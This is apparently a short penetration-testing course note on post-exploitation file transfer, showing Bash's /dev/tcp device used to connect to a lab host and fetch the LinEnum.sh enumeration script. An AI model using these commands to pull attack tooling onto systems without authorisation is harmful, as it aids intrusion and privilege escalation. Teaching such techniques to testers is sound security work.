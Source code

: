 ```yaml
---
tags:
  - Pentesting
  - Post-Exploitation
  - File_Transfer
---
```

There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

#### Connect to the Target Webserver

```shell-session
arenwald@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
```

#### HTTP GET Request

```shell-session
arenwald@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

#### Print the Response

```shell-session
arenwald@htb[/htb]$ cat <&3
```